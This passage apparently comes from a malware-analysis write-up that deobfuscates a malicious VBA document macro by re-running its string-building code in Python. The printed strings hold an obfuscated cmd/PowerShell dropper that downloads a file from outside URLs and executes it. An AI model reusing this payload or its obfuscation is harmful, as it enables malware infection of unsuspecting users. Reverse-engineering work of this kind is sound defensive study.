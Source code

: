     
    Function FScXPdzAh()
    On Error Resume Next
    XmdrRVAlf = "^" + "f %R" + "=" + "=" + "^0 " + Format(Chr(0 + 1 + 2 + 5 + 91)) + "a" + "^l^l %^" + "Z^" + "Y:*^ZY^"
    ZsfrSsv = "!" + "=%" + Format(Chr(0 + 0 + 0 + 1 + 33)) + "  " + ""
    FScXPdzAh = XmdrRVAlf + ZsfrSsv
    End Function
    

#### Deobfuscating VBA

The function that’s run on open simply appends the output of the other two,
and passes that to a shell. The other two are just doing lots of string
building. Since I don’t have a VBA emulator handy, but I do have python, I’ll
look at the code with an eye towards how much would have to change to get it
to run as python.

Short answer, not much. There are two functions that python will choke on:
`Format` and `Chr`. But `Format` called with only one parameters in VBA just
returns that parameter. And `Chr` is the same as `chr` in python.

So I popped open a python shell. First, I’ll define the functions I need
(easier than editing them out of the text). Then I’ll paste in the string
definitions from the VBA, doing the Document_Open one last, since it relies on
the other two. For those unfamiliar with python’s lambda format, `lambda [var]
: [return value]` simply defines a function that takes one parameter and
returns it.

    
    
    >>> # Create Functions to emulate VBA
    ...
    >>> Format = lambda x : x
    >>> Chr = chr
    >>>
    >>> # Strings from FPwimk function
    ...
    >>> USojhESRic = Format(Chr(0 + 1 + 2 + 5 + 91)) + "md " + "/V/" + Format(Chr(0 + 1 + 1 + 3 + 62)) + Format(Chr(0 + 0 + 0 + 1 + 33)) + "s" + "^e^t ^" + "K1" + "=" + "^ ^    " + "^ ^ ^" + "    "
    >>> Tqssc = "   " + " " + "^  }^" + "}^{^h" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^t^a" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "};ka^e" + "r^b"
    >>> oOsKiVzW = ";" + "z^i^" + "A$ m" + "etI-e" + "^k" + "^" + "o" + "v" + "n" + "I;"
    >>> YjmhqPb = ")" + "^zi" + "^A^$^" + " " + "^,dq" + "^f$" + "(^"
    >>> krszIdntsUo = "e^li^F^" + "dao^lnw" + "^oD." + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^W" + "V^$" + "{^yrt{)" + "t^" + "I^w^$" + "^" + " ni^ d" + "q^f^$(h" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "a^er" + "o^f"
    >>> DvWCiTuRV = ";^'e^xe" + ".^'" + "^+Kz" + "^j^$+^'" + "\^'+" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^i" + "l^bu^"
    >>> jIBcBnjZ = "p^:vn^" + "e^$=z^" + "i^A$^;^" + "'^9" + "63^" + "' = ^K" + "z^j^$^" + ";" + ")" + "'^@'(" + "t" + "i^l" + "^pS^.^'"
    >>> KWsLc = "nkt.2" + "a^g" + "r^at^=l" + "?php.t" + "^o^ksn"
    >>> HLFivtYKQ = "a" + "po" + "/TT" + "R/mo" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^." + "r^j^" + "5om" + "2" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^s^e"
    >>> wRhwirP = "fd5^9" + "t" + "//:p^t^" + "t^h'=" + "tI^w"
    >>> vcjvLjqHS = "$" + ";^tn^e" + "^il" + Format(Chr(0 + 1 + 1 + 3 + 62)) + "be^" + "W^.^" + "t^eN" + " ^t" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^ej" + "^bo^" + "-^w^"
    >>> aPaiGjc = "en=" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "W" + "V" + "$^" + " ^lle" + "h^sr" + "^e^w^o" + "^p&&" + "for /^" + "L %R " + "^in (" + "2^6" + "^5^;-^" + "1"
    >>> kBEtovj = ";^0)d" + "^" + "o ^" + "se^t ^Z" + "^Y=" + "!^Z^" + "Y!" + "!^K1:~%" + "R" + ",1!&&i"
    >>> FPwimk = USojhESRic + Tqssc + oOsKiVzW + YjmhqPb + krszIdntsUo + DvWCiTuRV + jIBcBnjZ + KWsLc + HLFivtYKQ + wRhwirP + vcjvLjqHS + aPaiGjc + kBEtovj
    >>>
    >>> # Strings from FScXPdzAh function
    ...